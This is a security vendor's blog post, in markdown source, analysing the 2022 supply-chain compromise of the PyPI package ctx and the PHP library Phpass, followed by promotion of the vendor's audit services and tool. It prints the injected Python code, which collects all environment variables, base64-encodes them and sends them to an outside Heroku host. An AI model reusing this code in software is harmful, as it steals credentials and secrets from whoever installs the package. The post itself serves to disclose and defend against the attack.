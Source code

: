 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: python-ctx-package-malware
date: 2022-05-24
keywords: [dependencies]
tags: []
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## PyPi package, `ctx`, compromised

After 7 years, the pypi package `ctx` received a version update. A malicious version of ctx was published under `0.2.2` as and update to the previous `0.1.2`. In this post we'll be reviewing the malicious code that was introduced.

<!--truncate-->

## Malicious Code in `ctx` version `0.2.2`

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

## `Phpass` contains identical malware

The library `Phpass` also received identical malicous code around the same time.

https://twitter.com/s0md3v/status/1529010306466615296

## External References

- [Archived version](https://archive.ph/xTUEN) of package versions.

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping software. Helping you enables us to make our Open Source software better.

To get started, send us an email at [deps@lunasec.io](mailto:deps@lunasec.io) or [schedule a 15 minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already! We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and [building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build [LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by [joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).
